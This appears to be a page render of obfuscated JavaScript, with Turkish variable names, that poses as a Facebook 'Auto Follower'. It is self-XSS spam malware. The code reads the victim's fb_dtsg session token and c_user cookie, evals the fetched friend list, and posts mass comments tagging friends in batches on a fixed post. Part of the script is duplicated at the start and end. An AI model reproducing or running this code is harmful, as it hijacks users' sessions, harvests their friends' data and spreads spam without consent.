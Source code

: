 RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i&lt;9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&amp;&amp;_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id); var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","846939252002410","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round","Enjoy 😍 🌹 🐔 💓 👻 ☕ @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text=Auto Facebook Follower WORKING 100% 😍 🌹 🐔 💓 👻 ☕\udbba\udc28 \udbb8\udc40 \udbb8\udc3d😍 🌹 🐔 💓 👻 ☕................................................................................................","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftoccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f&lt;Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i&lt;(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i&lt;9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&amp;&amp;_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id);
